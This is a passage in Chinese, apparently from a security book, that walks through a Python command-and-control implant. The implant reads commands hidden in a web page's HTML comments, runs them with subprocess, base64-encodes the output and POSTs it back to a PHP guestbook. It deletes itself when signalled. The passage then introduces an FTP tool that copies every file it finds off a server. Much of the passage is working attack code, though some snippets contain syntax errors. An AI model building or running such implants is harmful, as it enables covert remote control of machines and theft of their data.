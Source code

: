 由于此脚本具有内置的自删除方法，我们可以通过以下循环将其设置为永远运行：

```
while 1:
```

我们请求检查预配置页面上是否有任何评论。如果有的话，我们会把它们列在一个列表中。我们使用非常基本的`regex`来执行此检查：

```
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
```

我们要做的第一件事是检查是否有空评论。这对脚本来说意味着它应该删除自己，这是一种非常重要的不干涉 C2 脚本的机制。如果希望脚本删除自身，只需在页面上留下一条空注释。脚本通过查找自己的名称并删除该名称来删除自身：

```
for comment in comments:
    if comment = " ":
      os.delete(__file__)
```

如果注释不是空的，我们将尝试使用`subprocess`命令将其传递给系统。重要的是你要使用。`split()`在命令上说明`subprocess`如何处理多部分命令。我们使用`.check_output`将命令直接给出的任何输出返回给我们指定的变量：

```
else:
      try:
        response = subprocess.check_output(comment.split())
```

如果命令失败，我们将响应值设置为`command failed`：

```
      except:
        response = "command fail"
```

我们获取这个`response`变量，并将其分配给一个与字典中的 PHP 脚本相匹配的键。在这种情况下，字段名为`comment`，因此我们将输出分配给注释。我们以输出为基础，以考虑任何随机变量，例如可能干扰脚本的空格或代码：

```
data={"comment":(''.join(response)).encode("base64")}
```

现在已经分配了数据，我们以`POST`请求将其发送到预配置的服务器，并等待`30`秒再次检查注释中的进一步说明：

```
newreq = requests.post("http://127.0.0.1/addguestbook.php", data=data)
  time.sleep(30)
```

# 创建 FTP C2

这个脚本是一个快速而肮脏的文件盗窃工具。它沿着目录直线运行，捕捉它接触到的所有东西。然后将它们导出到指向的`FTP`目录。在可以删除文件并希望快速获取服务器内容的情况下，这是理想的起点。

我们将创建一个连接到 FTP 的脚本，获取当前目录中的文件，并将它们导出到 FTP。然后跳转到下一个目录并重复。当它遇到两个相同的目录列表时（即，它已到达根目录），它将停止。

## 开始
